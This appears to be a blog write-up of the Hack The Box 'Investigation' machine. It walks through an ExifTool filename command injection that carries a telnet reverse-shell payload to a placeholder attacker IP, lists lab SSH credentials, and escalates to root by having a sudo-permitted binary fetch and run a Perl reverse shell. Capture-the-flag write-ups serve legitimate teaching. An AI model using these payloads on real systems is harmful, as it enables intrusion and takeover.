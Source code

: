 +++ 
title = "Investigation HTB Write up"
description = "Write up for the HTB machine 'Investigation'"
author = "greatmoves"
tags = ["exiftool", "perl", "hackthebox", "binary ninja", "reverse engineering", "sudo -l", "digital forensics"]
date = 2023-04-23
+++
- [1. Initial Recon](#1-initial-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. website recon](#2-website-recon)
  - [2.1. ExifTool](#21-exiftool)
- [3. user.txt](#3-usertxt)
  - [3.1. file system recon](#31-file-system-recon)
  - [3.2. .msg file](#32-msg-file)
- [4. root.txt](#4-roottxt)
  - [4.1. investigating the binary](#41-investigating-the-binary)
    - [4.1.1. binary ninja](#411-binary-ninja)
    - [4.1.2. final payload](#412-final-payload)

## 1. Initial Recon
----
### 1.1. nmap
cmd `nmap -sC -sV 10.10.11.197`
- From the nmap scan we get the url `http://eforenzics.htb/` which we can add to /etc/hosts
- We have port 22 ssh and port 80 http
### 1.2. nikto
cmd `nikto -host 10.10.11.197`
- found nothing interesting
## 2. website recon
----
- /service.html has a file upload service
    - uploading any image file reveals the ExifTool Version Number 12.37
### 2.1. ExifTool
A quick google search for ExifTool reveals a command injection vulnerability for that version number
- https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
  - ```Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command.```

Our payload will be in the name of the file that we upload to the web application

After trying some payloads from revshells we can eventually use:
- payload: `TF=$(mktemp -u);mkfifo $TF && telnet 10.10.x.x 4444 0<$TF | sh 1>$TF |`
## 3. user.txt
Once we have our reverse shell let's obtain a fully interactive shell with:
`python3 -c 'import pty;pty.spawn("/bin/bash");'`

### 3.1. file system recon
After some recon of the file system we find the directory `/usr/local/investigation`
- from here we can also find our username: `smorton`

Let's download the files

- On the victim machine spin up a http server using `python3 -m http.server`
- On your attacking machine run `curl http://10.10.11.197:8000/Windows%20Even%20Logs%20for%20Analysis.msg > out.msg`

### 3.2. .msg file
Now we need to find what to do with a `.msg` file. Thankfully we can use `https://www.encryptomatic.com/viewer/` to analyse it for us, which will lead us to downloading a zip file, extract the file from the zip.

Now we've got a `.evtx` file and we've gotta figure out what to do with that.
- here's a python module that can help with that `https://pypi.org/project/python-evtx/`
  - run `python3 evtx_dump.py security.evtx > out.file`

From the evtx file we can find a password: `Def@ultf0r3nz!csPa$$`

Now we can ssh into the machine with the credentials
```
smorton:Def@ultf0r3nz!csPa$$
```

navigate to `/home/smorton` for `user.txt`
## 4. root.txt
when we run `sudo -l` we can see that there's a binary the user is allowed to run
```
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

So let's investigate this binary. Same as above let's spin up a http server using python3 on the victim machine and download the binary
- run `python3 -m http.server` on the victim machine
- run `curl http://10.10.11.197:8000/binary > binary.out` on your attacking machine

### 4.1. investigating the binary
let's start by running `strings binary.out`
```
...
Exiting... 
lDnxUysaQn
Running... 
perl ./%s
rm -f ./lDnxUysaQn
...
```

from this we can gather that
- perl is being run on a string
- `lDnxUysaQn` has some significance

#### 4.1.1. binary ninja
binary ninja allows us to decompile the binary and get an idea of what the main function of the binary is doing
{{< highlight c "linenos=inline" >}}
    0000144a      if (argc != 3)
    00001453          puts(str: "Exiting... ")
    0000145d          exit(status: 0)
    0000145d          noreturn
    00001469      if (getuid() != 0)
    00001472          puts(str: "Exiting... ")
    0000147c          exit(status: 0)
    0000147c          noreturn
    0000149d      if (strcmp(argv[2], "lDnxUysaQn") != 0)
    00001687          puts(str: "Exiting... ")
    00001691          exit(status: 0)
    00001691          noreturn
    000014aa      puts(str: "Running... ")
    000014c4      FILE* rax_8 = fopen(filename: argv[2], mode: &data_2027)
    000014cd      int64_t rax_9 = curl_easy_init()
    000014d6      int32_t var_40 = 0x2712
    000014f9      curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712)
    000014fe      int32_t var_3c = 0x2711
    0000151a      curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711)
    0000151f      int32_t var_38 = 0x2d
    0000153c      curl_easy_setopt(rax_9, 0x2d, 1, 0x2d)
    00001554      if (curl_easy_perform(rax_9) != 0)
    00001671          puts(str: "Exiting... ")
    0000167b          exit(status: 0)
    0000167b          noreturn
    00001583      int64_t rax_25 = sx.q(snprintf(s: nullptr, maxlen: 0, format: &data_202a, argv[2]))
    00001594      char* rax_28 = malloc(bytes: rax_25 + 1)
    000015c6      snprintf(s: rax_28, maxlen: rax_25 + 1, format: &data_202a, argv[2])
    000015ed      int64_t rax_37 = sx.q(snprintf(s: nullptr, maxlen: 0, format: "perl ./%s", rax_28))
    000015fe      char* rax_40 = malloc(bytes: rax_37 + 1)
    00001629      snprintf(s: rax_40, maxlen: rax_37 + 1, format: "perl ./%s", rax_28)
    00001635      fclose(fp: rax_8)
    00001641      curl_easy_cleanup(rax_9)
    0000164b      setuid(uid: 0)
    00001657      system(line: rax_40)
    00001663      system(line: "rm -f ./lDnxUysaQn")
{{< / highlight >}}

from this we can gather
- the program requires 2 arguments (line 1)
- the second argument must be `lDnxUysaQn` (line 9)
- curl is being used on argument 1 (line 17, line 22)
  - [man page for curl_easy_perform](https://linux.die.net/man/3/curl_easy_perform)
- perl is being run with system (line 31, line 35)

so let's construct a command to run on the victim machine so that it meets the above requirements

#### 4.1.2. final payload
`sudo /usr/bin/binary 10.10.x.x:80/payload.pl lDnxUysaQn`
- we need to be running the binary as sudo, so we need `sudo /usr/bin/binary` at the start
- the first argument is being curled, so let's use `python3 -m http.server 80` to host our payload
  - `10.10.x.x:80/payload.pl` is so the binary curls from our machine
- perl is being run, so let's make our payload a perl script for a reverse shell
  - from [revshells](https://www.revshells.com/) get a perl reverse shell
- finally, `lDnxUysaQn` is required at the end

Spin up the http server on your attacking machine along with a netcat listener

finally, our netcat listener will catch a reverse shell as the root user.